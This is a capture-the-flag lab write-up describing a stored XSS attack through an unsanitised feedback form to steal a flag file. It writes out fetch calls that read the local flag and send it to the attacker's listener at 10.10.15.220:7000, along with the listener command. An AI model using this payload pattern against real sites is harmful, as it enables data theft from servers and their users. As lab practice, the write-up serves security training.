





## Target Info

## Mission
Steal the contents of `http://10.10.197.209:8080/flag.txt`

## Performance

### Go to `http://10.10.197.209:8080/flag.txt`
The result is 401 unauthorized. 

### Browse the site homepage and discover a “Feedback” page
The feedback page presents a simple text area and “Submit” button, with no input sanitization.

### Craft the XXS payload
The script will read the local /flag.txt file and send it to the attacker host aka my machine.

    

What is the code trying to do?
- Fetch the flag: fetch('http://127.0.0.1:8080/flag.txt') makes an HTTP request to http://127.0.0.1:8080/flag.txt to retrieve the contents of “flag.txt.”

- Read the response as text: Once the request succeeds, .then(response => response.text()) extracts the body of the response as plain text (stored in the variable data).

- Send the flag to my machine: finally, the snippet attempts to send that text (data) to http://10.10.15.220:7000/ by adding it as a query parameter in the URL: fetch("http://10.10.15.220:7000/?flag=" + encodeURIComponent(data));
- Using encodeURIComponent(...) ensures special characters (like spaces or symbols) in data are properly encoded so they don’t break the URL.

### Set up the listener (a simple HTTP server) on my machine

    root@ip-10-10-15-220:~# python3 -m http.server 7000
    Serving HTTP on 0.0.0.0 port 7000 (http://0.0.0.0:7000/) ...

The Python HTTP server command prints every incoming GET request (including its full URL and query string) to my terminal so I can see the exfiltrated flag.

### Submit the payload

Copy and paste the payload into the feedback textarea => Click Submit.

### Find the flag

After submitting the script, the listener will recieve the flag!

